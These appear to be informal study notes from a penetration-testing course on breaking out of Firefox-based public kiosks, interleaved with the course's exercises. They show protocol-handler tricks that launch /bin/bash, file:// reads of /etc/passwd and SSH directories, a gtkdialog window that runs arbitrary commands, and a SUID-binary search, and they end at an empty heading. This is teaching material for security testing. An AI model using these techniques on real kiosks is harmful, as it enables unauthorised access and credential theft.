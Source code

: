 # Kiosk breakouts

Interactive kiosks620 are computer systems that are generally intended to be used by the public for 
tasks such as Internet browsing, registration, or information retrieval. They are commonly 
installed in the lobbies of corporate buildings, in airports and retail establishments, and in various 
other locations.

# Kiosk enumeration

several projects dedicated to enumerating useful binaries for this purpose such as the 
Windows-based Living Off The Land Binaries and Scripts (LOLBAS) project625 or the Unix/Linuxbased GTFOBins626 project

`$ sudo apt install tigervnc-viewer`

`xtugervncviewer`

then we can look at the browser

`about:config`

`history`

`file:///var/www/localhost`

`g chrome://, ftp://, mailto:, smb:// , irc://myhost`

### 11.1.1.1 Exercises
1. What additional information can be discovered about the kiosk? What type of OS is it 
running?
2. Examine the kiosk interface and try different Firefox-specific “about:” keywords and other 
inputs in the address bar to see what feedback the kiosk interface provides and what 
information can be gathered

# Command execution

we explore the options of drop down 
and we select an application and it opens

we can try 
`irc://myhost=something /bin/bash`

# leveraging firefox profiles

`irc://myhost -P "haxor"` - commandline for new profile in firefox

which might provide with new set of menus

# enumerating system information

file:///URI 

so we can try and use file :///etc/passwd

file:///proc/version

file:///home/guest/.ssh/

file:///var/www/localhost/index.html

we can look at login and passwords

# scratching the surface

file:///home/guest/mytest.txt

however we want to run program with more than
irc://myhost

we have one application in particular /usr/bin/gtkdialog

which might be helpful.

dialog box for testing:
```html
<window>
 <vbox>
 <frame Description>
 <text>
 <label>This is an example window.</label>
 </text>
 </frame>
 <hbox>
 <button ok>
 <action>echo "testing gtk" > /tmp/gtkoutput.txt</action>
 </button>
 <button cancel></button>
 </hbox>
 </vbox>
</window>
```

we can load build scripts with -f parameter

we save it as myfile

and then 
`irc://myhost -f /home/guest/mywindow`

### 11.2.4.1 Exercises
1. Browse around the filesystem using the “Launch Application” dialog and gather as much 
useful information about the system as possible.
2. Try out various programs via the “Launch Application” dialog. Which ones seem useful for 
information gathering or potential exploitation when launched from Firefox?

### 11.2.4.2 Extra Mile
Find a way to write user-provided text to a file on the file system without Scratchpad. One 
potential option might include the Javascript console

# Post Exploitation

buikt in terminal option for gtkdialog does not work. 

# simulating an interactive shell

we will try and simulate the dynamic terminal by sending commands and getting results and refreshing

```
<window>
 <vbox>
 <vbox scrollable="true" width="500" height="400">
 <edit>
 <variable>CMDOUTPUT</variable>
 <input file>/tmp/termout.txt</input>
 </edit>
 </vbox>
 <hbox>
 <text><label>Command:</label></text>
 <entry><variable>CMDTORUN</variable></entry>
 <button>
 <label>Run!</label> 
 <action>$CMDTORUN > /tmp/termout.txt</action>
 <action>refresh:CMDOUTPUT</action> 
 </button>
 </hbox>
 </vbox>
</window>
```
### 11.3.1.1 Exercises
1. Improve the terminal, making it more effective or more reliable. Integrate standard error 
output.
2. Explore the other widgets and elements of gtkdialog. What other useful features can be 
created with it that might be useful for interacting with the system?

### 11.3.1.2 Extra Mile
Experiment with creating simple applications with gtkdialog to streamline the exploitation 
process. One potential project is a text editor based on our terminal application

# Privilege Escalation

we can try runnin this command to locate suid binaries

`(find / -perm -u=s -exec ls -al {} +)`

/usr/sbin/mtr and /usr/bin/xlock have revcent vulnerabilities

`ps aux for all running process`

using ps aux we found that oprnbox is being used

# thinking outside the box


